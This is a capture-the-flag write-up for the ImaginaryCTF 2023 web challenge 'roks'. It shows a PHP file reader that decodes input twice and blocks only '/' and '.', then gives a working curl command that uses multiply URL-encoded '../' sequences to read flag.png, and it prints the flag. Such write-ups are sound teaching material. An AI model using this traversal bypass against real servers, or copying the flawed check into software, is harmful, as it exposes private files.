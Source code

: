 ```yaml
---
title: ImaginaryCTF 2023 - roks
description: Writeup for roks web challenge
date: 2023-12-18
tldr: My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?
draft: false
tags: ["ctf", "writeup", "Web"]
---
```


# roks
My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?


http://roks.chal.imaginaryctf.org/

## Manual examination

After staring at the `file.php` its obvious that this is vulnerable to directory traversal attacks, however there is character blacklist in place, which makes it hard to traverse the filesystem as both `.` and `/` are forbidden. Since `urldecode` happens before any checks are made url-encoding doesnt help us much here...

```php
<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>
```


this actually vulnerable to triple encoding the payload like since the `urldecode` happens twice once for the check and once before the file is opened.

`curl 'http://roks.chal.imaginaryctf.org/file.php?file=%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252Fflag%25252Epng' > curl.png`

we get an image with the flag `ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}`